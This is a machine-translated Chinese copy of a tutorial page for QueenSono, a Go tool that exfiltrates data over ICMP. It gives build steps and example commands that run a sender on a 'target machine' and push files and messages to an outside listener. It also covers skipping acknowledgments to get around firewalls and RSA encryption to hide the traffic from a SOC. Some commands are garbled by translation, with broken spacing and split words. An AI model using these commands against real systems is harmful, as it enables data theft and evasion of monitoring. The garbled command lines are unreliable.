


# QueenoSno : Golang 二进制，用于使用 ICMP 协议进行数据过滤

> 原文：<https://kalilinuxtutorials.com/queensono/>

QueenSono 工具只依赖于 ICMP 协议不受监控这一事实。这是很常见的。它也可以在具有基本 ICMP 检查(即频率和内容长度观察器)或使用强制网络门户(许多公共 Wi-Fi 在连接到 Wi-Fi(如机场 Wi-Fi)后使用它来验证用户)绕过验证步骤。尝试模仿 PyExfil(和其他软件),目标机器不需要安装 python(所以提供一个二进制文件会很有用)。

**安装**

*>从源代码安装二进制文件*

克隆存储库并在本地下载依赖项:

**git 克隆 https://github.com/ariary/QueenSono.git
make before . build**

要构建 ICMP 数据包发送器`**qssender**`:

**build.queensono-sender**

要构建 ICMP 数据包接收器`**qsreceiver**`:

**build.queensono-receiver**

**用途**

`qssender`是将 ICMP 数据包发送到监听器的二进制文件，因此它是您必须在目标机器上传输的二进制文件。

监听器在你的本地机器上吗(或者任何你能接收 icmp 信息包的地方)

使用`**--help**`可以找到二进制文件的所有命令和标志

**例 1:用“ACK”发送**

*>在这个例子中，我们要发送一个大文件，并在 echo 回复后确认数据包(ACK)的接收。*

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0**-p-f received _ bible . txt

**解释**

在目标机器上:

**$ wget https://raw . githubusercontent . com/mxw/grmr/master/src/final tests/bible . txt #下载一个巨大的文件(以此为例)
$ qssender 发送文件-D2-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 92-s 50000 bible . txt**

**解释**

**例 2:发送无“ACK”**

*>在本例中，我们想发送一条消息，而不等待回应回复(这在目标防火墙过滤传入的 icmp 数据包的情况下很有用)*

在本地机器上:

**$ qsreceiver 接收截断的 1 -l 0.0.0.0**

**解释**

在目标机器上:

**$ QS sender send“this isatest I want to send a string w/o waiting the echo reply”-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190-S1-N**

**例 3:发送加密数据**

*>在这个例子中我们要发送一条加密的消息。由于命令行可能被监听，我们使用非对称加密*

在本地机器上:

**$ QS receiver receive-l 0 . 0 . 0 . 0–加密**

**解释**

在目标机器上:

**$ qssender send“别担心，这封邮件是用公钥加密的。只有你能解密它"-D1-l 127 . 0 . 0 . 1-r 10 . 0 . 0 . 190 go . mod-S5-encrypt**

**关于加密**

RSA 加密用于对交换的数据保密。例如，通过基本分析或仅仅为了隐私，避免 SoC 查看交换了什么数据(或取证数据)可能是有用的。

但这是有代价的。选择非对称加密是因为加密密钥是在命令行上输入的(因此可以很容易地检索)。因此，我们用公钥加密数据。像这样，如果有人取回加密密钥，就不可能解密消息。但是公钥比私钥小，所以它 ***加密较小的消息*** 。还有， ***计算量大*** 。

另一点，由于我们想要限制数据大小/ping 请求(以避免检测、bug 等)，**仅在需要时使用加密** ***作为消息输出-大小将(应该)总是等于模数*** (密钥的一部分)的大小，后者很大。

[**Download**](https://github.com/ariary/QueenSono)